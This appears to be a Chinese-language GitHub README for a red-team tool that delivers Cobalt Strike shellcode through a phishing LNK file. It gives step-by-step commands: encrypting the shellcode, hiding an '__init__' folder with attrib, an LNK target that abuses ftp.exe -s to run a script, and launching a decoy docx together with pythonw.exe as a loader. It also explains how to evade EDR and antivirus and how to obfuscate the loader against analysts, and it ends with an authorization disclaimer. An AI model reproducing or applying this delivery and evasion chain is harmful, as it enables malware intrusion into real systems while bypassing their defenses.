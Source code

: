 ## 前言

最近看到一些博客文章对红队样本做了一些分析，估计很快此方法便失效了，决定放出来供红队成员学习研究

https://xz.aliyun.com/t/15308?time__1311=GqjxnD2Citq05DK54CqiKq7KYAKW948OObD

https://www.52pojie.cn/thread-1956543-1-1.html

其实这种方式在很早之前便出现了，之前更多的是调用powershell易被拦截

https://www.freebuf.com/articles/web/325322.html

但通过调用一些白程序(pythonw、javaw)仍可以绕过许多EDR杀软

## 常规程序弊端

- 如果使用捆绑程序释放文档和木马，容易被EDR杀软会标记为恶意，如某数字杀软常会产生 `qvm 报毒拦截`
- 红队木马被上传沙箱后，容易失效并且可能会导致大量的虚拟beacon上线，对攻击方造成影响

## 使用方式

特此感谢 [pant0m](https://github.com/pant0m)，本工具在其基础上进行二改

1、`cobaltstrike` 生成 `beacon_x64.bin`，或者使用其他C2的shellcode，默认匹配当前目录的第一个bin文件

![image](https://github.com/user-attachments/assets/fc97cb09-f20c-4f38-b639-968d0cdbfb10)

2、运行`generate.py`，自动加密`shellcode`并复制到当前`__init__`文件夹下

![image](https://github.com/user-attachments/assets/bf3081fb-60fc-4bf2-b37f-68463473d453)

3、设置属性隐藏文件夹 `__init__`

```
attrib -s -h -r __init__
attrib +s +h +r __init__
```

LNK属性填写

```
C:\Windows\System32\ftp.exe -""s:__init__\python.dll
```
![image](https://github.com/user-attachments/assets/3af29388-36b9-44f8-bffb-3f11b2ef488b)

python.dll 内容为

```
!start /b __init__\11.docx
!start /b __init__\pythonw.exe __init__\main.py
bye
```

## 实现效果

![e58ad4a8c625481495a7137bee2837e](https://github.com/user-attachments/assets/f9b781b9-795f-4304-ad68-67ddac4ab393)

## 代码加解密和混淆

shellcode处理可使用 https://github.com/EgeBalci/sgn

![image](https://github.com/user-attachments/assets/6dcff7a3-42f4-4194-afb5-06015a474395)

加载方式为了简便选择本地解密加载

如果说为了更好的防溯源和被蓝队捕获shellcode可使用远程加载的方式，但需要注意存储桶的权限配置

解密loader因为需要携带在附件内，所以需要尽可能混淆，增加蓝队的逆向难度

https://pyob.oxyry.com/

![image](https://github.com/user-attachments/assets/3ad71315-9824-49b5-8196-e75afee1668c) 

## 坑点细节

因为文件调用是在上一级目录下，因此`加密shellcode路径`应设置为相对的 `__init__/data.dat`

```
def loadjson (file ='__init__/data.dat'):#line:14
    with open (file ,'r',encoding ='utf-8')as O0OOO00O0OO0O0OO0 :#line:16
        OOO0O0OO000OOO0O0 =json .load (O0OOO00O0OO0O0OO0 )
```

pythonw.exe需要添加libs依赖才能正常运行，把文件夹下面的文件全部拷贝

```
C:\Users\Administrator\AppData\Local\Programs\Python\Python38\Lib
```
其实也可以使用javaw，像上面也有红队使用相关的样本，但是环境依赖太大不推荐，举一反三其他语言同理

## 声明

仅限用于技术研究和获得正式授权的攻防项目，请使用者遵守《中华人民共和国网络安全法》，切勿用于任何非法活动，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布者不承担任何法律及连带责任！

使用前先按照文档步骤一步一步来，报错问题自行百度解决，类似issue不予回复，感谢理解！

